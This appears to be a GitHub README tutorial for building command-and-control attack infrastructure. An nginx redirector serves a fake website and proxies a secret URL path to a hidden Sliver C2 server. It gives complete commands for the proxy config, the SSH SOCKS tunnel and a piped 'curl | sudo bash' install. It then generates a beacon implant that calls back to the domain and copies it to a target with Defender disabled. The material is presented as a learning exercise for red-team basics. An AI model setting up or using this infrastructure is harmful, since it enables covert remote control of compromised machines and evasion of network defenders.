 # Simple C2 Redirector Infrastructure
Simple C2 Path Redirector with nginx to help learn the basics of C2 infrastructure.

Requirements:
* (2) Ubuntu VMs in the cloud with **at least** 1 CPU and 2 GB RAM each
* (1) Domain

<img width="772" height="366" alt="image" src="https://github.com/user-attachments/assets/25eeb7de-c954-4065-889c-ce0ad9905e93" />

# 1. Create VMs in Cloud
First create two VMS in your favorite Cloud service (AWS, Azure, etc):  
* Redir-VM - Will be exposed to the internet and serve as the *fake website* using nginx   
* C2-VM - Will be your C2 (in this case Sliver) and NOT exposed to the internet at all

These two VMs will be in the **SAME private network** with the following network configs.  
**C2-VM**:
- Create in local network private network
- NO Public IP or ports open to the Internet
- Make sure to create an SSH key for these VMs

**Redir-VM** (You can change 8443 to whatever port but change throughout future steps if you do):  
- Inbound  
   - 22 to only your IP(s)  
   - 80 to any IP  
   - 443 to any IP  
   - 8443 to any IP
- Outbound  
    - 80 to any IP  
    - 443 to any IP  
    - 8443 to any IP   

Once you get your public IP for Redir-VM, make an *A-record* DNS entry to your domain and the public IP.


# 2. Setup Redir-VM
_Perform the following commands on Redir-VM unless stated otherwise._

First lets configure the redirector which will host a fake website using nginx and when a certain path is given, it will redirect to the C2 server.
```
sudo apt update && sudo apt upgrade
sudo apt-get install -y nginx certbot net-tools
sudo systemctl stop nginx
sudo certbot certonly --register-unsafely-without-email -d <www.youdomain.com>
```
_Note: for certbot, enter [1] then [y] when prompted_  
Create your fake website in _/var/www/html_ by changing _index.html_ to your own code or use the one in the repo and change the wording a bit to make sense for your domain.

Create your redirector in _/etc/nginx/sites-available_ by adding the _default_ file from the repo to replace the one there. Update _sub.domain.com_ to your domain.
```
sed -i 's/sub.domain.com/your.domain.com/g' /etc/nginx/sites-available/default
```

CHANGE _secretpath_ to something custom, make sure its random looking and long. so something like:
```
  location /ajisdfYUVSbgseoznauitrcbXBWDG {
                proxy_pass https://<C2-ip>:443;
        }
```
Start up nginx
```
sudo systemctl start nginx
```

Upload your SSH key to Redir-VM so you can connect to C2-VM through SSH  
From your host to Redir-VM:
```
scp -i <yourSSH-.pem-file> <yourSSH-.pem-file> <user>@<Redir-VM-IP>:/home/<user>/.ssh/id_rsa
```
Chmod 400 to the SSH key on Redir-VM. 
```
chmod 400 ~/.ssh/<your-private-key>
```
Copy over the same SSH key to the C2 to do reversee SSH connections in the next step  
From Redir-VM to C2-VM:
```
scp /home/<user>/.ssh/id_rsa <user>@<c2-VM-IP>:/home/<user>/.ssh/id_rsa
```

# 3. Setup C2-VM

_Perform the following commands on C2-VM unless stated otherwise. Make sure the SSH key is on C2-VM from previous step in order to perform reverse SSH connection._

Setup SSH reverse connection from C2-VM to Redir-VM in order to reach the internet and download Sliver.  
This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session.
```
ssh -D 1080 -q -N <user>@<Redir-VM-PRIVATE-IP>
```
*Note: This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session*

Test SSH reverse connection by using curl with socks5, it should return the IP of Redir-VM's public IP.
```
curl --socks5-hostname 127.0.0.1:1080 ifconfig.io
```
Install your C2 using socks5 (in this case Sliver).
```
curl --socks5-hostname 127.0.0.1:1080 https://sliver.sh/install|sudo bash
```

Once it finishes installed, exit or cancel the _ssh -D_ command with _Ctrl + C_ in the terminal.


# 4. Configure Your C2
Again, this will be using sliver so modify steps to your C2 and we will be using defaul configs since this is not a tutorial on bypassing EDR.
Use Sliver's latest [Wiki](https://sliver.sh/docs?name=Compile+from+Source) in case specific configs change.  

Confirm Sliver is installed (running as sudo to use HTTPS, screen is optional).
```
sudo su
screen -S sliver-session
sliver
```

Generate a beacon and start HTTPS listener.
```
generate beacon --http <yourDomain>:8443/<yourSecretRedirPath> --save yourBeacon.exe

https
```

Transfer over payload (yourBeacon.exe) to a machine an run it (Make sure Defender is turned off if using default configs).
```
On C2-VM:
chmod 777 <beacon.exe-location>

On Redir-VM: 
scp -i <SSH-key> <user>@<C2-VM-IP>:/<beacon.exe-location> .

On host to get it from Redir-VM:
scp -i <SSH-key> <user>@<Redir-VM-public-IP>:/<beacon.exe-location> .
```


